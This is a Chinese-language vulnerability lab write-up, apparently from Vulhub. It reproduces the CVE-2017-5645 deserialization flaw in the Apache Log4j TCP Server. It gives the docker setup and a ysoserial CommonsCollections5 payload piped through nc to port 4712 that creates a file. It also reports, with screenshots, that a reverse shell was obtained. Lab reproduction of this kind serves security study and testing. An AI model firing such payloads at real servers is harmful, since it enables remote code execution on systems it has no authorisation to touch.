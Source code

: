 # Apache Log4j TCP Server 反序列化命令执行漏洞（CVE-2017-5645）

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j TCP Server 2.8.2之前的2.x版本中存在反序列化漏洞，攻击者可利用该漏洞执行任意代码。

参考链接：

- https://issues.apache.org/jira/browse/LOG4J2-1863
- https://github.com/pimps/CVE-2017-5645

## 漏洞环境

执行如下命令启动漏洞环境：

```
docker compose up -d
```

环境启动后，将在4712端口开启一个TCPServer。

说一下，除了使用vulhub的docker镜像搭建环境外，我们下载了log4j的jar文件后可以直接在命令行启动这个TCPServer：`java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`，无需使用vulhub和编写代码。

## 漏洞复现

我们使用ysoserial生成payload，然后直接发送给`your-ip:4712`端口即可。

```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

然后执行`docker compose exec log4j bash`进入容器，可见 /tmp/success 已成功创建：

![](1.png)

执行[反弹shell的命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功弹回shell：

![](2.png)
